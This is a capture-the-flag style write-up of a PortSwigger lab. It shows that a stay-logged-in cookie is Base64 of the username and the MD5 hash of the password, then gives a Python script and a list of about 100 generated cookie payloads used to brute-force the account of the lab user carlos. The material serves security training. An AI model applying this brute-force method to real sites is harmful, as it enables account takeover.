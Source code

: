 
# Brute-forcing a stay-logged-in cookie

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

- Your credentials: wiener:peter

- Victim's username: carlos

- Candidate passwords

---------------------------------------------

References: 

- https://portswigger.net/web-security/authentication/other-mechanisms



![img](images/Brute-forcing%20a%20stay-logged-in%20cookie/1.png)

---------------------------------------------

There is an option to stay logged in:



![img](images/Brute-forcing%20a%20stay-logged-in%20cookie/2.png)


It generates a cookie “stay-logged-in”:



![img](images/Brute-forcing%20a%20stay-logged-in%20cookie/3.png)


The content of the cookie is the Base64 encode value of “wiener:51dc30ddc473d43a6011e9ebba6ca770”, and “51dc30ddc473d43a6011e9ebba6ca770” is the MD5 hash of “peter”. So the formula for the cookie is BASE64(user:MD5(password)):



![img](images/Brute-forcing%20a%20stay-logged-in%20cookie/4.png)


With just this cookie it is possible to connect to /my-account:



![img](images/Brute-forcing%20a%20stay-logged-in%20cookie/5.png)


I will create the possible values with this script:

```
import hashlib, base64

pwds = open("pass.txt").read().splitlines()

for i in pwds:
        result = hashlib.md5(i.encode())
        #print(result.hexdigest())
        message = "carlos:"+result.hexdigest()
        #print(message)
        message_bytes = message.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')
        print(base64_message)
```



![img](images/Brute-forcing%20a%20stay-logged-in%20cookie/6.png)


```
Y2FybG9zOmUxMGFkYzM5NDliYTU5YWJiZTU2ZTA1N2YyMGY4ODNl
Y2FybG9zOjVmNGRjYzNiNWFhNzY1ZDYxZDgzMjdkZWI4ODJjZjk5
Y2FybG9zOjI1ZDU1YWQyODNhYTQwMGFmNDY0Yzc2ZDcxM2MwN2Fk
Y2FybG9zOmQ4NTc4ZWRmODQ1OGNlMDZmYmM1YmI3NmE1OGM1Y2E0
Y2FybG9zOjI1ZjllNzk0MzIzYjQ1Mzg4NWY1MTgxZjFiNjI0ZDBi
Y2FybG9zOjgyN2NjYjBlZWE4YTcwNmM0YzM0YTE2ODkxZjg0ZTdi
Y2FybG9zOjgxZGM5YmRiNTJkMDRkYzIwMDM2ZGJkODMxM2VkMDU1
Y2FybG9zOjk2ZTc5MjE4OTY1ZWI3MmM5MmE1NDlkZDVhMzMwMTEy
Y2FybG9zOmZjZWE5MjBmNzQxMmI1ZGE3YmUwY2Y0MmI4YzkzNzU5
Y2FybG9zOjg2MjFmZmRiYzU2OTg4MjkzOTdkOTc3NjdhYzEzZGIz
Y2FybG9zOjQyOTdmNDRiMTM5NTUyMzUyNDViMjQ5NzM5OWQ3YTkz
Y2FybG9zOjI3NmY4ZGIwYjg2ZWRhYTdmYzgwNTUxNmM4NTJjODg5
Y2FybG9zOmU5OWExOGM0MjhjYjM4ZDVmMjYwODUzNjc4OTIyZTAz
Y2FybG9zOjM3YjRlMmQ4MjkwMGQ1ZTk0YjhkYTUyNGZiZWIzM2Mw
Y2FybG9zOmQwNzYzZWRhYTlkOWJkMmE5NTE2MjgwZTkwNDRkODg1
Y2FybG9zOjBkMTA3ZDA5ZjViYmU0MGNhZGUzZGU1YzcxZTllOWI3
Y2FybG9zOjNiZjExMTRhOTg2YmE4N2VkMjhmYzFiNTg4NGZjMmY4
Y2FybG9zOmViMGExOTE3OTc2MjRkZDNhNDhmYTY4MWQzMDYxMjEy
Y2FybG9zOmYzNzllYWYzYzgzMWIwNGRlMTUzNDY5ZDFiZWMzNDVl
Y2FybG9zOjZlZWE5YjdlZjE5MTc5YTA2OTU0ZWRkMGY2YzA1Y2Vi
Y2FybG9zOmM4ODM3YjIzZmY4YWFhOGEyZGRlOTE1NDczY2UwOTkx
Y2FybG9zOmJlZTc4M2VlMjk3NDU5NTQ4NzM1N2UxOTVlZjM4Y2Ey
Y2FybG9zOmU4MDdmMWZjZjgyZDEzMmY5YmIwMThjYTY3MzhhMTlm
Y2FybG9zOjBhY2Y0NTM5YTE0YjNhYTI3ZGVlYjRjYmRmNmU5ODlm
Y2FybG9zOmMzMzM2NzcwMTUxMWI0ZjYwMjBlYzYxZGVkMzUyMDU5
Y2FybG9zOjg0ZDk2MTU2OGE2NTA3M2EzYmNmMGViMjE2YjJhNTc2
Y2FybG9zOjFjNjMxMjlhZTlkYjljNjBjM2U4YWE5NGQzZTAwNDk1
Y2FybG9zOmRjMGZhN2RmM2QwNzkwNGEwOTI4OGJkMmQyYmI1ZjQw
Y2FybG9zOjkzMjc5ZTMzMDhiZGJiZWVkOTQ2ZmM5NjUwMTdmNjdh
Y2FybG9zOjY3MGIxNDcyOGFkOTkwMmFlY2JhMzJlMjJmYTRmNmJk
Y2FybG9zOjc2NDE5YzU4NzMwZDlmMzVkZTdhYzUzOGMyZmQ2NzM3
Y2FybG9zOjQ2Zjk0YzhkZTE0ZmIzNjY4MDg1MDc2OGZmMWI3ZjJh
Y2FybG9zOmIzNmQzMzE0NTFhNjFlYjJkNzY4NjBlMDBjMzQ3Mzk2
Y2FybG9zOjVmY2ZkNDFlNTQ3YTEyMjE1YjE3M2ZmNDdmZGQzNzM5
Y2FybG9zOmQxNmQzNzdhZjc2Yzk5ZDI3MDkzYWJjMjIyNDRiMzQy
Y2FybG9zOjE2NjBmZTVjODFjNGNlNjRhMjYxMTQ5NGM0MzllMWJh
Y2FybG9zOjAyYzc1ZmIyMmM3NWIyM2RjOTYzYzdlYjkxYTA2MmNj
Y2FybG9zOmExNTJlODQxNzgzOTE0MTQ2ZTRiY2Q0ZjM5MTAwNjg2
Y2FybG9zOjZiMWIzNmNiYjA0YjQxNDkwYmZjMGFiMmJmYTI2Zjg2
Y2FybG9zOmQ5YjIzZWJiZjliNDMxZDAwOWEyMGRmNTJlNTE1ZGI1
Y2FybG9zOmRhNDQzYTBhZDk3OWQ1NTMwZGYzOGNhMWE3NGU0Zjgw
Y2FybG9zOmVmNGNkZDMxMTc3OTNiOWZkNTkzZDc0ODg0MDk2MjZk
Y2FybG9zOmVjMGUyNjAzMTcyYzczYThiNjQ0YmI5NDU2YzFmZjZl
Y2FybG9zOmQ5MTRlM2VjZjZjYzQ4MTExNGEzZjUzNGE1ZmFmOTBi
Y2FybG9zOmY3OGYyNDc3ZTk0OWJlZTJkMTJhMmM1NDBmYjYwODRm
Y2FybG9zOjA1NzE3NDllMmFjMzMwYTc0NTU4MDljNmIwZTdhZjkw
Y2FybG9zOmYyNWEyZmM3MjY5MGI3ODBiMmExNGUxNDBlZjZhOWUw
Y2FybG9zOjA4ZjkwYzFhNDE3MTU1MzYxYTVjNGI4ZDI5N2UwZDc4
Y2FybG9zOmJmNzc5ZTA5MzNhODgyODA4NTg1ZDE5NDU1Y2Q3OTM3
Y2FybG9zOjY4NGM4NTFhZjU5OTY1YjY4MDA4NmI3YjQ4OTZmZjk4
Y2FybG9zOmVmNmU2NWVmYzE4OGU3ZGZmZDczMzViNjQ2YTg1YTIx
Y2FybG9zOmRmMDM0OWNlMTEwYjY5ZjAzYjRkZWY4MDEyYWU0OTcw
Y2FybG9zOmFkOTI2OTQ5MjM2MTJkYTA2MDBkN2JlNDk4Y2MyZTA4
Y2FybG9zOmFhNDdmODIxNWM2ZjMwYTBkY2RiMmEzNmE5ZjQxNjhl
Y2FybG9zOjViYWRjYWY3ODlkM2QxZDA5Nzk0ZDhmMDIxZjQwZjBl
Y2FybG9zOmVlODlmN2E3YTA1NjViYTU2ZjhmYjU3OTRjMGJkOWZl
Y2FybG9zOmQwOTcwNzE0NzU3NzgzZTZjZjE3YjI2ZmI4ZTIyOThm
Y2FybG9zOjliMzA2YWIwNGVmNWUyNWY5ZmI4OWM5OThhNmFlZGFi
Y2FybG9zOmRmNTNjYTI2ODI0MGNhNzY2NzBjODU2NmVlNTQ1Njhh
Y2FybG9zOjIzNDVmMTBiYjk0OGM1NjY1ZWY5MWY2NzczYjNlNDU1
Y2FybG9zOmFhZTAzOWQ2YWEyMzljZmMxMjEzNTdhODI1MjEwZmEz
Y2FybG9zOmIzZjk1MmQ1ZDlhZGVhNmY2M2JlZTlkNGM2ZmNlZWFh
Y2FybG9zOmI1OWM2N2JmMTk2YTQ3NTgxOTFlNDJmNzY2NzBjZWJh
Y2FybG9zOmI0MjdlYmQzOWM4NDVlYjU0MTdiN2Y3YWFmMWY5NzI0
Y2FybG9zOjViMWI2OGE5YWJmNGQyY2QxNTVjODFhOTIyNWZkMTU4
Y2FybG9zOjFiYmQ4ODY0NjA4MjcwMTVlNWQ2MDVlZDQ0MjUyMjUx
Y2FybG9zOmUwNDc1NTM4N2U1YjU5NjhlYzIxM2U0MWY3MGMxZDQ2
Y2FybG9zOmQ1YWExNzI5YzhjMjUzZTVkOTE3YTUyNjQ4NTVlYWI4
Y2FybG9zOmY2M2Y0ZmJjOWY4Yzg1ZDQwOWYyZjU5ZjJiOWUxMmQ1
Y2FybG9zOjFhMWRjOTFjOTA3MzI1YzY5MjcxZGRmMGM5NDRiYzcy
Y2FybG9zOjFkM2QzNzY2N2E4ZDdlYjAyMDU0YzZhZmRmOWUyZTFj
Y2FybG9zOjU1ODM0MTM0NDMxNjRiNTY1MDBkZWY5YTUzM2M3Yzcw
Y2FybG9zOjBiNGU3YTBlNWZlODRhZDM1ZmI1Zjk1YjljZWVhYzc5
Y2FybG9zOjZmNGVjNTE0ZWVlODRjYzU4YzhlNjEwYTBjODdkN2Ey
Y2FybG9zOjhhZmE4NDdmNTBhNzE2ZTY0OTMyZDk5NWM4ZTc0MzVh
Y2FybG9zOmQxMTMzMjc1ZWUyMTE4YmU2M2E1NzdhZjc1OWZjMDUy
Y2FybG9zOmZlYTBmMWY2ZmVkZTkwYmQwYTkyNWI0MTk0ZGVhYzEx
Y2FybG9zOjYyMDk4MDQ5NTIyMjVhYjNkMTQzNDgzMDdiNWE0YTI3
Y2FybG9zOjZiMTYyOGIwMTZkZmY0NmU2ZmEzNTY4NGJlNmFjYzk2
Y2FybG9zOmI1YzBiMTg3ZmUzMDlhZjBmNGQzNTk4MmZkOTYxZDdl
Y2FybG9zOmFkZmY0NGM1MTAyZmNhMjc5ZmNlNzU1OWFiZjY2ZmVl
Y2FybG9zOmZjNjNmODdjMDhkNTA1MjY0Y2FiYTM3NTE0Y2QwY2Zk
Y2FybG9zOjkxY2IzMTVhNjQwNWJmY2MzMGUyYzQ1NzFjY2ZiOGNl
Y2FybG9zOjVlZjY0YmFkOGY5ZDdlMGM4NWY4MjE1ODBlNGQ2NjI5
Y2FybG9zOmU2YTViYTA4NDJhNTMxMTYzNDI1ZDY2ODM5NTY5YTY4
Y2FybG9zOjlkZjNiMDFjNjBkZjIwZDEzODQzODQxZmYwZDQ0ODJj
Y2FybG9zOjFkMTBjYTdmOGZlMjYxNWJmNzJhMjQ5YTdkMzRkNmI5
Y2FybG9zOjZlYmU3NmM5ZmI0MTFiZTk3YjNiMGQ0OGI3OTFhN2M5
Y2FybG9zOjA5ZjgzMTZlMjk2NDlhN2Y3OTVmNDE0YmEzODYwZmMw
Y2FybG9zOjIyOTk3OWZjZTUxNzRjMTdkNDY0NWJmODc1MmRhZTFl
Y2FybG9zOjVjNzY4NmMwMjg0ZTA4NzViMjZkZTk5YzEwMDhlOTk4
Y2FybG9zOjdkOGJjNWYxYThkMzc4N2QwNmVmMTFjOTdkNDY1NWRm
Y2FybG9zOjIxYjcyYzBiN2FkYzVjN2I0YTUwZmZjYjkwZDkyZGQ2
Y2FybG9zOmIzZThjZGQ5ZmY0NDI1OWZkNjdlODc5ZTU3OGNkOGY0
Y2FybG9zOmJkMWQ3YjA4MDllNGI0ZWU5Y2EzMDdhYTUzMDhlYTZm
Y2FybG9zOjA4YjU0MTFmODQ4YTI1ODFhNDE2NzJhNzU5Yzg3Mzgw
Y2FybG9zOjg5OTQ4YzdmNDg5MGFmNWZmMTg1MjRiNGZjM2YzNjEx
Y2FybG9zOjY1NzlhOTJlN2Y1YWM3YzU3MDU1MTk2YjNhZmUzZGRk
Y2FybG9zOjZkNGRiNWZmMGMxMTc4NjRhMDI4MjdiYWQzYzM2MWI5
Y2FybG9zOjYzYjA0YTM3MTg0OTY5NGVmMzg2NDY4N2FkY2I0MTBh
```

We get a different response with “Y2FybG9zOmIzZThjZGQ5ZmY0NDI1OWZkNjdlODc5ZTU3OGNkOGY0”, which is the payload for the password “mobilemail”:





![img](images/Brute-forcing%20a%20stay-logged-in%20cookie/7.png)
![img](images/Brute-forcing%20a%20stay-logged-in%20cookie/8.png)